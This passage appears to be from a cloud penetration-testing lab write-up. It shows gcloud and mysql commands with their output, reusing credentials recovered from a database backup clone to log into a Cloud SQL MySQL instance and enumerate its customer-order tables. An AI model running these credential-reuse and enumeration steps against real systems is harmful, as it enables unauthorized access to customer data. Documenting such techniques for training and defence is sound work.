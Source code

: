 We retrieved credentials from  retail database clone, which could be related to SQL database (since we also had `cloudsql` roles assigned to service account). We can list sql instances
```
└─$ gcloud sql instances list --project=gr-proj-1
NAME                       DATABASE_VERSION  LOCATION       TIER         PRIMARY_ADDRESS  PRIVATE_ADDRESS  STATUS
gigantic-retail-backup-db  MYSQL_8_0_31      us-central1-b  db-f1-micro  34.134.161.125   -                RUNNABLE
customer-app-1             POSTGRES_15       us-central1-f  db-f1-micro  34.31.83.80      -                RUNNABLE

```

We can connect to `gigantic-retail-backup-db` using credentials we found in `retail-db-backup-clone`
```
└─$ mysql -h 34.134.161.125 -u appdev -p --ssl-verify-server-cert=False
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1210710
Server version: 8.0.31-google (Google)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

```

We can start enumerating the database
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| GlobalSalesData    |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.221 sec)

MySQL [(none)]> use GlobalSalesData;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [GlobalSalesData]> show tables;
+---------------------------+
| Tables_in_GlobalSalesData |
+---------------------------+
| CustomerOrders            |
+---------------------------+
1 row in set (0.213 sec)

```
